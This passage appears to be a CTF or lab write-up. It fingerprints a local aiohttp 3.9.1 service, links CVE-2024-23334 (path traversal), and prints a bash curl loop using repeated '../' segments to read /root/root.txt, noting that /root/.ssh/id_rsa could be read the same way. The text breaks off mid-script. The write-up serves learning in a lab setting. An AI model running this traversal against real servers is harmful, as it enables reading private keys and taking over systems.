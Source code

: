 After trying a couple things, nothing seemed to work, so, I tried the following:

```ad-hint

1. Use curl to get the headers of the page: `curl 127.0.0.1:9001 --head`
2. Found this is running `aiohttp/3.9.1`
3. Search for any vulnerability regarding that version.
```

So, I found the following CVE:

![Pasted image 20250109170749.png](../../IMAGES/Pasted%20image%2020250109170749.png)

Here's the repository: [here](https://github.com/z3rObyte/CVE-2024-23334-PoC), it talks about a path traversal, we can reproduce the following steps in order to get the root flag (We can also get root access by reading `/root/.ssh/id_rsa):

```
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
```